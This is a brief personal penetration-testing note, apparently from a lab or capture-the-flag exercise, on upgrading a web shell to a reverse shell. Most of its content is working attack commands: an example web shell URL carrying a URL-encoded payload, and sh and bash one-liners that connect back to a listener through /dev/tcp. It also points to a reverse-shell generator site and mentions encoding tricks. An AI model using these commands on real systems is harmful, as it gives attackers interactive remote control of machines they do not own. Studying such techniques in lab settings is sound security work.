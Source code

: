
https://www.revshells.com/

if we have a web shell on the machine but want a reverse shell
http://10.10.51.95:12340/rms/images/reverse-shell.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.18.21.236%2F443%200%3E%261

sh -i >& /dev/tcp/10.18.21.236/443 0>&1

`bash -c "bash -i >& /dev/tcp/10.18.21.236/443 0>&1"`
url encoded: `bash+-c+"bash+-i+>%26+/dev/tcp/10.18.21.236/443+0>%261"&sub=Execute`

for windows, use [[powershell]]

can also be encoded url, base64
